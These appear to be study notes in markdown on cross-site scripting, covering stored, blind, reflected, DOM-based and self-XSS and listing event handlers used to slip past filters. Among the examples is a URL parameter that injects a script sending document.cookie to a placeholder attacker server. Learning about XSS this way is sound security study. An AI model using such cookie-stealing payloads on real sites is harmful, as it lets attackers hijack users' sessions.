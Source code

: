 ### Types of XSS

* XSS happens when scripts run on a victim's browser when a website cant tell the difference betweene user input and website code.
* **Stored XSS** - When user input is stored on a server and retrieved later unsafely.
    * Although they weren't properly sanitized being injected, scripts could be escaped/sanitized if it was being retrieved 
    * Most dangerous type of XSS
    * <script> alert('XSS by Vickie'); </script>
    * Cookies and personal info could be stolen with XSS. But it can also change site contents and redirect to other sites.
    * **Forms, search boxes, name, or username fields.**
    * Sometimes menus or numeric fields can have XSS if you change their values in a proxy.
 * **Blind XSS** - a stored XSS that takes place someplace else in the application.
    * Harder to detect, you cant find them by lookinh got reflected input from the server.
    * Attacks can host their own server and if they see a response to that server, then that web application has that XSS vulnerability.
 * **Reflected XSS** - user input is returned without being stored in a database. Often found in input forms that build pages, like search boxes.
     * h<span>ttps://example.com/search?q=<script> ... </script>
     * Not only could they extract data, but **perform malicious actions on the victim's machine on behalf of the attacker**.
 * **DOM-based XSS** - similar to a reflected XSS except it doesnt leave the browser. Scripts injected stay on the browser and targets the DOM of a web page.
     * DOM specifies how HTML creates a webpage and how scripts modify it.
     * Targets local files saved on the browser.
     * jQuery alters the DOM is often vulnerable to these type of attacks.
     * **Can be embedded in fragments and URL parameters:**
         * h<span>ttps://example.com#about_us
         * h<span>ttps://example.com?locale=<script>location='http://attacker_server_ip/?c=+document.cookie;</script>
  * **Self-XSS** - a social engineering attack that tricks users into executing a XSS intructed by the attacker.

   ### Hunting for XSS
   
  * The <script> tag are unlikely to work on their own, you must use different methods.
      * onlick
      * onerror
      * URL schemes like javascript: or data:
      * onload
